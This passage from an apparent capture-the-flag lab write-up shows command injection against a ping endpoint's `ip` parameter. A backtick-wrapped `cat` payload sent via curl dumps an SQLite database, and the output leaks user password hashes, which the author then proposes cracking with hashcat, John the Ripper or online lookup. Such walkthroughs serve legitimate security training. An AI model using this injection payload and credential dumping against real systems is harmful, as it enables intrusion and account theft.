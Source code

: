 The `ip` parameter is injectable, and passing `ls` disclosed the name of the database: `utech.db.sqlite`

## #3.2 - What is the first user's password hash?

Now, we can get try to get the content of the database. The `sqlite3` package doesn't seem to have been installed on the server, but we are still able to dump the content of the database with `cat`.

~~~
$ curl -i 'http://10.10.100.5:8081/ping?ip=`cat%20utech.db.sqlite`'
HTTP/1.1 200 OK
X-Powered-By: Express
Access-Control-Allow-Origin: *
Content-Type: text/html; charset=utf-8
Content-Length: 147
ETag: W/"93-594eIY8lmtfDeu2ln6BdpbW24SI"
Date: Sat, 20 Jun 2020 06:10:50 GMT
Connection: keep-alive

���(r00tf357a0c52799563c7c7b76c1e7543a32)admin0d0ea5111e3c1def594c1684e3b9be84: Parameter string not correctly encoded
~~~

It seems we have been able to get the r00t's and admin's password hashes: 

account | password hash
---|---
r00t | f357a0c52799563c7c7b76c1e7543a32
admin | 0d0ea5111e3c1def594c1684e3b9be84

Answer: `f357a0c52799563c7c7b76c1e7543a32`

## #3.3 - What is the password associated with this hash?

*Hint: We will, we will *******.txt*

To crack the password, we could either perform a brute force attack ourselves using `hashcat` or `John the Ripper`, or be smarter and check on the Internet (e.g. https://crackstation.net/) if this hash has been cracked already:

!["sqlite-hash.png"](files/sqlite-hash.png)
